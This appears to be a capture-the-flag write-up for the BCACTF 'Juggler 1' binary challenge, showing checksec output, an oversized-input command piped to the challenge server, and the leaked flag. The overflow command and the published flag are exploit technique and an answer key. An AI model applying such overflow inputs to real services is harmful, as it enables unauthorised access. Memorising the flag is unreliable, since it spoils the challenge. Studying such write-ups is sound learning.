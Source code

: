 # Juggler 1 - 100 points - 112 solves
## Description
My friend here has got some issues... Mainly, he can't stop juggling.
P.S Dockerfile is provided but not necessary for Juggler

### Given assets
- `chall` - executable
- `nc challs.bcactf.com 32250` - string for connection
- `Dockerfile` - Dockerfile of the environment in which the exec is running

---
`checksec`
```shell
pwn checksec chall
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
All protections are enabled.

Running the executable
```shell
./chall
P.S the juggler animation is kind of tilted so you might need to look at it sideways.

Please help me, I am the juggler, but I can't stop juggling.
Give me something for my left hand (not too heavy though please, I injured it)
(or QUIT to quit):
> ball
Give me something for my right hand:
> ball
Watch this!-----------------------------------------=--||
                    ball 3----\     __
                             O-|---<__
                    ball 3----/
-----------------------------------------=--||
                         3----\     __
                   ball      O-|---<__
                    ball 3----/
-----------------------------------------=--||
                    ball 3----\     __
                   ball      O-|---<__
                         3----/
-----------------------------------------=--||
                    ball 3----\     __
                             O-|---<__
                    ball 3----/
-----------------------------------------=--||
                         3----\     __
                   ball      O-|---<__
                    ball 3----/
Please help me, I am the juggler, but I can't stop juggling.
Give me something for my left hand (not too heavy though please, I injured it)
(or QUIT to quit):
>
```
The challenge is hinting us for the left hand. So I tried to feed it with a big input.

```shell
python -c 'print("A"*1024 + "\n" + "A"*1024 + "\n")' | ./chall
```
And the program began an infinite loop. Maybe because the input is being read by a 
number of chars at a time, maybe 16.

But it strangely printed the local flag.

```shell
> Give me something for my right hand:
> Watch this!-----------------------------------------=--||
 AAAAAAAAAAAAAAAAAAAAAAA 3----\     __
                             O-|---<__
             AAAAAAAAAAA 3----/
-----------------------------------------=--||
                         3----\     __
            AAAAAAAAAAA      O-|---<__
 AAAAAAAAAAAAAAAAAAAAAAA 3----/
-----------------------------------------=--||
             AAAAAAAAAAA 3----\     __
AAAAAAAAAAAAFLAG{JUGGLER}
      O-|---<__
                         3----/
-----------------------------------------=--||
AAAAAAAAAAAAFLAG{JUGGLER}
 3----\     __
                             O-|---<__
             AAAAAAAAAAA 3----/
-----------------------------------------=--||
                         3----\     __
            AAAAAAAAAAA      O-|---<__
AAAAAAAAAAAAFLAG{JUGGLER}
 3----/
```

So I sent it to the server.
```shell
python -c 'print("A"*1024 + "\n" + "A"*1024 + "\n")' | nc challs.bcactf.com 32250
P.S the juggler animation is kind of tilted so you might need to look at it sideways.

Please help me, I am the juggler, but I can't stop juggling.
Give me something for my left hand (not too heavy though please, I injured it)
(or QUIT to quit):
> Give me something for my right hand:
> Watch this!-----------------------------------------=--||
 AAAAAAAAAAAAAAAAAAAAAAA 3----\     __
                             O-|---<__
             AAAAAAAAAAA 3----/
-----------------------------------------=--||
                         3----\     __
            AAAAAAAAAAA      O-|---<__
 AAAAAAAAAAAAAAAAAAAAAAA 3----/
-----------------------------------------=--||
             AAAAAAAAAAA 3----\     __
AAAAAAAAAAAAbcactf{juGGLy_Sup3R_JUgGLY_81520b089934c}      O-|---<__
                         3----/
-----------------------------------------=--||
AAAAAAAAAAAAbcactf{juGGLy_Sup3R_JUgGLY_81520b089934c} 3----\     __
                             O-|---<__
             AAAAAAAAAAA 3----/
-----------------------------------------=--||
                         3----\     __
            AAAAAAAAAAA      O-|---<__
AAAAAAAAAAAAbcactf{juGGLy_Sup3R_JUgGLY_81520b089934c}	 3----/
Please help me, I am the juggler, but I can't stop juggling.^C⏎
```
Voilá.

`bcactf{juGGLy_Sup3R_JUgGLY_81520b089934c}`
